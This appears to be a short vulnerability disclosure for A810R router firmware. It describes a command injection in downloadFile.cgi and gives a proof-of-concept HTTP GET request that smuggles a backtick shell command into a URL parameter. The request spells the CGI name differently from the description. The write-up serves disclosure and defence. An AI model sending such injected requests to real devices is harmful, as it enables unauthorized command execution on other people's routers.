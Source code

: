 # Command Injection
# A810R_Firmware
version: V5.9c.2280_B20180512
# Description
There is a command injection in downloadFile.cgi. 
This bug still exist in V5.9c.2280_B20180512.
# Analyse
After obtaining the URL parameter, it is directly incorporated into the system function for execution without checking and filtering


![Snipaste_2022-09-10_16-25-46](https://user-images.githubusercontent.com/53329533/189476761-ae9092cd-e178-4cb1-83a3-15c2e9e4d48b.png)

![Snipaste_2022-09-10_16-39-50](https://user-images.githubusercontent.com/53329533/189476764-444f2ea3-4816-466f-aa6a-03a462df9a00.png)


# POC
```
GET /cgi-bin/downloadFlile.cgi?payload=`dw>../2.txt` HTTP/1.1
Host: 192.168.163.165
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
